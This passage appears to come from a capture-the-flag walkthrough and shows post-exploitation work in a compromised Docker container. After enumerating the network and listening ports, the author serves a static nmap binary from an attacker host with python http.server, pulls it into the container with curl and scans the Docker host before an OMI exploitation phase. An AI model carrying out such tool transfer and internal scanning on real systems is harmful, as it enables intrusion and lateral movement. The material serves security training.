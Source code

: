 ```jsx
        ether 02:42:ac:11:00:02  txqueuelen 0  (Ethernet)
        RX packets 176830  bytes 34415605 (32.8 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 175361  bytes 70168847 (66.9 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@4a70924bafa0:/bin# netstat -tulwn

Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN   
  
root@4a70924bafa0:/bin#
```

> **Internal Network Enumeration & Gaining Access with OMI Exploitation Phase**
> 

**For more information:**

[5985,5986 - Pentesting OMI | HackTricks](https://book.hacktricks.xyz/pentesting/5985-5986-pentesting-omi)

`wget https://github.com/andrew-d/static-binaries/raw/refs/heads/master/binaries/linux/x86_64/nmap`

```jsx
nmap                          100%[================================================>]   5.67M  4.38MB/s    in 1.3s    

2024-11-22 04:36:54 (4.38 MB/s) - ‘nmap’ saved [5944464/5944464]

```

**For source:**

[https://github.com/andrew-d/static-binaries/](https://github.com/andrew-d/static-binaries/)

`python3 -m http.server 8000`

```jsx
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```jsx
root@4a70924bafa0:/bin# cd /tmp
root@4a70924bafa0:/tmp# curl http://10.2.37.37:8000/nmap -o nmap
root@4a70924bafa0:/tmp# chmod +x nmap
root@4a70924bafa0:/tmp# ./nmap -p- --min-rate 1000 172.17.0.1 -oN nmap_result.txt

PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   open   http
5985/tcp closed unknown
5986/tcp open   unknown
MAC Address: 02:42:3D:F2:74:61 (Unknown)

root@4a70924bafa0:/tmp#
```

